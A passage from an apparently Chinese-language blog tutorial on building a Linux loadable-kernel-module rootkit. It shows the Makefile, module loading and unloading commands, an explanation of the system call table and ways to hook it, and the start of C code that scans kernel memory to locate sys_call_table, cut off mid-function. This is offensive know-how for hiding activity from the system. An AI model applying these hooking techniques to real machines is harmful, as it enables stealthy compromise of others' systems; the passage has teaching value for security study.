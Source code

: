 ```shell
obj-m		:= rootkit.o

KBUILD_DIR	:= /lib/modules/$(shell uname -r)/build

default:
	$(MAKE) -C $(KBUILD_DIR) M=$(shell pwd)
clean:
	$(MAKE) -C $(KBUILD_DIR) M=$(shell pwd) clean
```

直接make编译我们的rootkit，成功得到一个名为rootkit.ko的lkm模块。
编译生成模块.ko文件后，就可以通过insmod命令来加载模块。

```shell
root@kali:~/桌面/rootkit# insmod rootkit.ko
root@kali:~/桌面/rootkit#
```

通过lsmod命令可以查看驱动是否成功加载到内核中。

![]({{ site.baseurl }}/images/Rootkit/1.png)
size代表大小，used是模块被引用的次数。
这里我们稍微对代码做一点解释：module_init和module_exit是内核的特殊宏，我们需要利用这两个特殊宏告诉内核，我们所定义的初始化函数和清除函数分别是什么，这里分别对应的是lkm_init函数与lkm_exit函数。lkm_init()是在该模块被加载时执行的，lkm_init()是当模块被卸载时执行的，如果一个模块未定义清除函数，则内核不允许卸载该模块。我们只在这两个函数内部打印了一条信息，并未做其他多余操作。

通过insmod命令加载刚编译成功的ko模块后，似乎系统没有反应，也没看到打印信息。而事实上，内核模块的打印信息一般不会打印在终端上。驱动的打印都在内核日志中，我们可以使用dmesg命令查看内核日志信息。
![]({{ site.baseurl }}/images/Rootkit/2.png)

通过rmmod rootkit命令我们可以将该模块从内核中卸载掉。我们可以看到打印的信息，有一条rootkit removed就是我门执行卸载模块的命令 rmmod rootkit时打印的。



## 3.&emsp;挂钩内核函数 ##

&emsp;&emsp;下面要介绍rootkit简单功能的编写了，首先我们理解两个名词，系统调用 和 系统调用表。

**系统调用**
系统调用是操作系统核心向用户提供的操作硬件设备、请求内核服务的接口。 系统调用接口位于用户态与核心态之间的边界， 用户程序通过系统调用向操作系统内核请求服务， 操作系统内核完成服务， 将结果返回给用户进程。 系统调用提供了一种访问核心的机制，这种机制提高了系统的安全性，保证了应用程序的可移植性。

**系统调用表**
操作系统利用函数指针数组保存系统调用服务例程的地址， 这个数组称为系统调用表（sys_call_table）。操作系统利用系统调用号为下标在系统调用表中找到相应的系统调用服务例程函数指针并跳转到相应地址，实现系统调用服务例程的寻址与调用。类似Windows下面的SSDT表。

我们可以简单理解为用户层下调用的api，都会经过这张表，然后跳到对应的内核函数上去执行。我们如果挂钩了内核函数，就可以给用户层返回修改后的结果。挂钩内核函数的方法也可以分为两种：

* 直接修改系统调用表中函数地址的值。
* inline hook 内核函数头部。

这里我们只介绍第一种方法，在修改表中函数地址的值之前，我们首先要获取这张表的地址，然后才能根据索引修改对应的函数地址的值。
在曾经的linux2.4系列内核中，我们可以轻易的获取系统调用表（sys_call_table），并对其进行修改，指向我们自己实现的系统调用历程，从而实现挂钩。但是linux2.6版本以后，sys_call_table[]不再是全局变量了，无法通过简单的”extern” 就可以得到它了。目前比较通用的方法是暴力搜索内存空间法来获取sys_call_table。

直接看代码：
```c
static unsigned long **aquire_sys_call_table(void)
{
    unsigned long int offset = PAGE_OFFSET;
    unsigned long **sct;

    printk("Starting syscall table scan from: %lx\n", offset);
    while (offset < ULLONG_MAX) {

        sct = (unsigned long **)offset;

        if (sct[__NR_close] == (unsigned long *) sys_close) {
```